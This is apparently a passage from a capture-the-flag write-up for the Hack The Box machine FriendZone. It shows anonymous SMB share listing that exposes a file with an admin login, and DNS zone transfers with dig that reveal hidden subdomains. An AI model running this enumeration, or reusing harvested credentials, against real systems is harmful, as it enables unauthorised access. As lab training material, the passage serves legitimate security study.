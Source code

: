#### general
```
smbclient -N //friendzone.htb/general    
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 16 15:10:51 2019
  ..                                  D        0  Tue Sep 13 10:56:24 2022
  creds.txt                           N       57  Tue Oct  9 19:52:42 2018

                3545824 blocks of size 1024. 1622184 blocks available
```

Creds.txt
```
cat creds.txt       
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```

## Check domain
### friendzone.htb
```
dig axfr friendzone.htb @10.129.209.64

; <<>> DiG 9.18.11-2-Debian <<>> axfr friendzone.htb @10.129.209.64
;; global options: +cmd
; Transfer failed.
```

### friendzone.red
```
dig axfr friendzone.red @10.129.88.74

; <<>> DiG 9.18.11-2-Debian <<>> axfr friendzone.red @10.129.88.74
;; global options: +cmd
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.         604800  IN      AAAA    ::1
friendzone.red.         604800  IN      NS      localhost.
friendzone.red.         604800  IN      A       127.0.0.1
administrator1.friendzone.red. 604800 IN A      127.0.0.1
hr.friendzone.red.      604800  IN      A       127.0.0.1
uploads.friendzone.red. 604800  IN      A       127.0.0.1
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 88 msec
;; SERVER: 10.129.88.74#53(10.129.88.74) (TCP)
;; WHEN: Fri Feb 24 22:36:08 EST 2023
;; XFR size: 8 records (messages 1, bytes 289)
```
